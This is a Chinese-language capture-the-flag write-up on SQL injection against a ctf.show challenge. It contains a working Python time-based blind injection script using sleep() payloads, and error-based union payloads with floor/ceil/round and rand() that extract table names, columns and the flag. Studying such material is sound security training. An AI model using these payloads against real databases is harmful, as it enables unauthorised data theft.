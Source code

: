 # 知识点
### 其他一些报错注入
> 1.floor()、round()、ceil()
> 
> 2.exp() //5.5.5版本之后可以使用
> 
> 3.name_const 
> 
> 4.geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring() 几何函数报错


# 思路
### 方法一
三种盲注都被过滤，我选择延时盲注（dog
```plsql
import requests
import time
url = 'http://fa420279-0c5b-4832-8602-22a3c9be3158.challenge.ctf.show/api/?id='
str = ''
for i in range(1, 60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名
        # payload = f"1' and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.5),1)%23"

        # 爆列
        # payload = f"1' and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagsa'),{i},1))<{j},sleep(0.5),1)%23"

        # 爆值
        payload = f"1' and if(ascii(substr((select group_concat(`flag?`) from ctfshow_flagsa),{i},1))<{j},sleep(0.6),1)%23"

        start_time = time.time()
        r = requests.get(url=url+payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.5:
            max = j
        else:
            min = j

```
### 方法二 将floor换成round或者ceil
> Mysql取整函数
> 1.round
> 四舍五入取整
> round(s,n)：对s四舍五入保留n位小数,n取值可为正、负、零.
> 如四舍五入到整数位，则n取零.
> 2.ceil
> 向上取整
> ceil(s)：返回比s大的最小整数
> 3.floor
> 向下取整
> floor(s)：返回比s小的最大整数
> 直接把上一步的floor替换成ceil或者round即可。
> 有一点需要注意下，列名查出来是flag?，所以我们在查数据的时候要包个反引号


```plsql
查表 
1' union select 1,count(*),concat(0x3a,0x3a,(select (table_name) from information_schema.tables where table_schema=database()  limit 1,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
查列 
1' union select 1,count(*),concat(0x3a,0x3a,(select (column_name) from information_schema.columns where table_name='ctfshow_flagsa'  limit 1,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
查数据 
1' union select 1,count(*),concat(0x3a,0x3a,(select (`flag?`) from ctfshow_flagsa  limit 0,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
```

